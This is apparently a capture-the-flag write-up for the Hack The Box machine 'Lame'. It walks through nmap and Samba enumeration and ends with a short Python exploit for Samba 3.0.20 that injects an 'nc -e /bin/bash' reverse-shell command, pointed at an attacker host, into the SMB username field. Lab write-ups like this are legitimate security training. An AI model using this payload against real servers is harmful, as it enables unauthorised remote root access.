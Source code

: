 # Lame
![info-card](./info_card.png)

## Initial Enumeration

The enumeration phase for this box is rather straight forward. To start off we will run a quick nmap scan with the following:

```bash
nmap -sV -sC 10.10.10.3
```

We can immediately see a possible point here:

![vsftpd](./vsftpd-nmap.png)

This version of `vsftpd` is quite old and a quick google search for that version brings up this [exploit](https://www.exploit-db.com/exploits/17491). Unfortunately it looks like this isn't exploitable on this box. Our next option is Samba. We get some version information from nmap:

![smb](./smb-nmap.png)

From this we only know that it's between 3.X - 4.X, which isn't all too useful. The most reliable way to fingerprint a Samba server is going to be capturing some network traffic and inspect the packets. For capturing packets you can use Wireshark or tcpdump (I'll use Wireshark here) and to generate the traffic we will just scan the server with `smbmap`. This gives us the dual purpose of collecting network packets as well as some additional enumeration on the service. From `smbmap` we can see that we have read/write access to a share `/tmp` as well as the version of the server:

![smbmap](./smbmap.png)

We can also see the version number in Wireshark, which is `samba 3.0.20-Debian`:

![smb-wireshark](./smb-wireshark.png)

Searching for that with searchsploit brings up a metasploit [module](https://www.exploit-db.com/exploits/16320), but the exploit itself is pretty simple, so I will just write a python script to exploit it. Essentially we are injecting bash commands into the username field during the initial smb request. I'll use the following python script to kick off a reverse shell using the `-e` flag with `nc` on the target:

```python 
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()



username = "/=`nc -e /bin/bash 10.10.14.12 4443`"
password = ""
conn = SMBConnection(username, password, "HACKTHEBOX" , "HTB", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

This gives us a root shell and we are able to read the `root.txt` file (as well as `user.txt` of course):

![root](./root.png)
